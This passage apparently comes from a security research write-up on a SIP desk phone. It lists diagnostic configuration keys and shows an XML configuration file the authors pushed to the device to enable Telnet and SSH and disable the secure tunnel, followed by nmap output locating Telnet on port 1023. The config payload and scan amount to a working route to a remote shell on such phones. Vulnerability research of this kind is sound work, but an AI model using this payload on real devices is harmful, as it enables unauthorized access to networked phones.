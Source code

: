 ```
diags.serviceAssurance.UploadPath
diags.sip.tlsMasterKeyLogging.enabled
diags.sshc.enabled
diags.sshc.gateway.fingerprint
diags.sshc.gateway.fingerprint.sha1
diags.sshc.gateway.password
diags.sshc.gateway.port
diags.sshc.gateway.server
diags.sshc.gateway.user
diags.system.freeMemoryThreshold
diags.telnetd.enabled
diags.videoStats.enabled
diags.pcap.filter
```


With these parameters we noticed that it’s possible to habilitate the Telnet. So we sent a configuration file that enabled the resource.


```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!-- Application SIP LeafDanube 5.4.5.9658 05-Jul-17 14:41 -->
<!-- Created 28-09-2018 04:38 -->
<!-- Base profile Lync -->
<PHONE_CONFIG>
	<ALL
		diags.sshc.enabled="1"
		diags.telnetd.enabled="1"
		httpd.cfg.enabled="1"
		httpd.cfg.secureTunnelEnabled="0"
		httpd.enabled="1"
		video.codecPref.H264="3"
	/>
</PHONE_CONFIG>
```

The Telnet default port is disabled, so we made a scan and found out that the service goes up by a 1023 pattern.  

```perl
Nmap scan report for xxx.xxx.xxx.xxx
Host is up (0.0026s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
1023/tcp open  netvenuechat
5001/tcp open  commplex-link
5060/tcp open  sip
8001/tcp open  vcom-tunnel
```

The access via Telnet follows the same entry order as the web interface, such as user and password.
